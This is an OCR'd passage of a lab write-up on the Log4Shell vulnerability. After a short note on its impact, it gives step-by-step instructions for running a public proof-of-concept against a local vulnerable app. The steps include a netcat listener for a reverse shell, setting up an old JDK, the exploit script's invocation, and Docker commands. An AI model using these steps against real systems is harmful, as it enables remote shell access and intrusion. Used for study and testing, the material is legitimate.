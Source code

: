 * Severe Consequences: Exploitation can lead to severe consequences such as data breaches, loss of control over systems, financial losses, and reputational damage.

The discovery of Log4Shell has led to a massive global response, with organizations rushing to identify and patch vulnerable systems to prevent exploitation.

- ***POC*** 

	I used [this repo](https://github.com/kozmer/log4j-shell-poc) to simulate an vulnerable application using old log4j version (jdk1.8.0\_20) and conduct an attack on it to open reverse shell on its server exploiting log4shell.

1. First install requirements

| pip install \-r requirements.txt |
| :---- |

2. Start a netcat listener to accept reverse shell connection.

| nc \-lvnp 9001 |
| :---- |

   

3. Launch the exploit.

Note: For this to work, the extracted java archive has to be named: jdk1.8.0\_20, and be in the same directory. Because of the vulnerable version of log4j.

**Getting the Java version**

Oracle thankfully provides an archive for all previous java versions:  
https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html.  
Scroll down to 8u20 and download the appropriate files for your operating system and hardware. Screenshot from 2021-12-11 00-09-25

Note: You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find java and a few related binaries in jdk1.8.0\_20/bin.  
Note: Make sure to extract the jdk folder into this repository with the same name in order for it to work.

| ❯ tar \-xf jdk-8u20-linux-x64.tar.gz❯ ./jdk1.8.0\_20/bin/java \-versionjava version "1.8.0\_20"Java(TM) SE Runtime Environment (build 1.8.0\_20-b26)Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode) |
| :---- |

4. Execute proc.py with these arguments

| python3 poc.py \--userip localhost \--webport 8000 \--lport 9001 |
| :---- |

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

**Vulnerable application**

There is a Dockerfile with the vulnerable webapp. You can use this by following the steps below:

6\.  docker build \-t log4j-shell-poc .

7\.  docker run \--network host log4j-shell-poc

